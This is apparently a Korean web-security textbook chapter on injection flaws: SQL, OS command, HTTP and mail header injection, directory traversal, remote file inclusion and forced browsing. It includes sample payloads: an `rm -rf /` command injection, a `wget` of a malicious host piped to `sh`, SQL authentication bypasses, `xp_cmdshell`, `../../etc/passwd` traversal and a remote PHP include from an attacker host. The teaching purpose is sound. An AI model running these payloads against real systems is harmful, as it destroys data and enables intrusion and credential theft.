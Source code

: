 # 11.2 출력 값의 이스케이프 미비로 인한 취약성

출력 값의 이스케이프 처리가 미흡하면 공격자가 입력한 데이터를 그대로 실행하도록 유도하여 보안 취약점이 발생할 수 있다. 이를 악용하면 데이터베이스 조작, 시스템 명령 실행, 응답 조작, 파일 시스템 접근 등의 공격이 가능하다.

## 11.2.2 SQL 인젝션

웹 애플리케이션에서 실행되는 SQL 쿼리를 조작하여 데이터베이스를 부정하게 조작하는 공격이다.

### SQL 인젝션의 영향

- **데이터베이스 내의 데이터 부정 열람이나 변조**
    - 공격자가 SQL 쿼리를 조작하여 비밀번호, 개인정보 등을 조회하거나 데이터를 수정할 수 있다.
    - **예시**:
    위와 같이 `-`를 삽입하면 뒤의 조건이 주석 처리되어 패스워드 검증 없이 로그인할 수 있다.
        
        ```sql
        SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';
        ```
        
- **인증 회피**
    - SQL 인젝션을 활용하면 비밀번호 입력 없이도 로그인할 수 있다.
    - **예시**:
    항상 참이 되는 조건을 삽입하여 인증을 우회할 수 있다.
        
        ```sql
        ' OR '1'='1' --
        ```
        
- **데이터베이스 서버를 경유한 프로그램 실행**
    - 일부 DBMS에서는 SQL을 통해 시스템 명령을 실행할 수 있다.
    - **예시 (MS SQL Server)**:
    서버에서 실행 중인 사용자 계정을 확인할 수 있다.
        
        ```sql
        EXEC xp_cmdshell 'whoami';
        ```
        

## 11.2.3 OS 커맨드 인젝션

웹 애플리케이션을 통해 서버의 시스템 명령을 실행하는 공격이다.

### OS 커맨드 인젝션의 영향

- **임의 명령 실행**
    - `ping`, `ls`, `rm` 등의 명령을 실행하여 시스템을 조작할 수 있다.
    - **예시**:
    서버의 모든 데이터를 삭제할 수 있다.
        
        ```
        ping google.com; rm -rf /
        
        ```
        
- **파일 조작 및 악성 코드 다운로드**
    - `wget`, `curl` 등을 활용하여 악성 코드를 다운로드하고 실행할 수 있다.
    - **예시**:
        
        ```
        wget <http://malicious.com/malware.sh> | sh
        ```
        
- **권한 상승 및 서버 장악**
    - OS 명령어 조작을 통해 루트 권한을 획득할 수도 있다.

## 11.2.4 HTTP 헤더 인젝션

공격자가 응답 헤더에 개행 문자 등을 삽입하여 추가적인 헤더나 바디를 조작하는 공격이다.

### HTTP 헤더 인젝션의 영향

- **임의의 쿠키 설정**
    - `Set-Cookie` 헤더를 추가하여 사용자의 세션을 변조할 수 있다.
    - **예시**:
        
        ```
        Set-Cookie: session=attacker_cookie; HttpOnly
        ```
        
- **임의의 URL 리다이렉트**
    - 사용자를 피싱 사이트로 유도할 수 있다.
    - **예시**:
        
        ```
        HTTP/1.1 302 Found
        Location: <http://phishing.com>
        ```
        
- **HTTP 리스폰스 분할 공격**
    - 응답 바디를 변조하여 악성 스크립트를 삽입할 수 있다.
- **헤더 포이즈닝**
    - 캐시 서버를 속여 악성 응답을 저장하도록 유도할 수 있다.

## 11.2.5 메일 헤더 인젝션

웹 애플리케이션의 메일 송신 기능을 악용하여 임의의 메일 헤더를 추가하는 공격이다.

### 메일 헤더 인젝션의 영향

- **스팸 메일 발송**
    - `To`, `Bcc` 필드를 조작하여 대량의 메일을 발송할 수 있다.
    - **예시**:
        
        ```
        To: victim@example.com
        Bcc: spam@example.com
        ```
        
- **피싱 공격**
    - `From` 필드를 조작하여 신뢰할 수 있는 기관을 사칭할 수 있다.
    - **예시**:
        
        ```
        From: support@trusted.com
        ```
        

## 11.2.6 디렉토리 접근 공격(Directory Traversal)

비공개 디렉토리의 파일을 부정하게 열람하는 공격이다.

### 디렉토리 트래버설 공격 사례

- **시스템 파일 접근**
    - 서버의 중요한 파일을 읽어낼 수 있다.
    - **예시**:
    시스템의 사용자 계정 정보를 가져올 수 있다.
        
        ```
        ../../etc/passwd
        
        ```
        
- **웹 애플리케이션 설정 파일 접근**
    - 데이터베이스 연결 정보가 포함된 설정 파일을 유출할 수 있다.
    - **예시**:
        
        ```
        ../../config.php
        
        ```
        

## 11.2.7 리모트 파일 인클루션

스크립트에서 외부 서버의 URL을 참조하여 임의의 코드를 실행하는 공격이다.

### 리모트 파일 인클루션의 영향

- **원격 악성 코드 실행**
    - 공격자가 제공하는 URL을 실행하여 악성 코드를 삽입할 수 있다.
    - **예시 (PHP)**:
        
        ```php
        include("<http://attacker.com/malicious.php>");
        
        ```
        
- **백도어 설치**
    - 공격자는 지속적으로 접근할 수 있는 악성 파일을 서버에 추가할 수 있다.

# 11.3 웹 서버의 설정이나 설계미비로 인한 취약성

## 11.3.1 강제 브라우징

보호되지 않은 디렉토리나 파일을 직접 요청하여 비공개 정보를 열람하는 공격이다.

### 강제 브라우징의 영향

- **고객 정보 등 중요 정보 누설**
- **어디에도 링크되지 않은 파일 노출**
    - `.git/`, `.env` 등의 파일을 찾아내어 설정 정보를 유출할 수 있다.
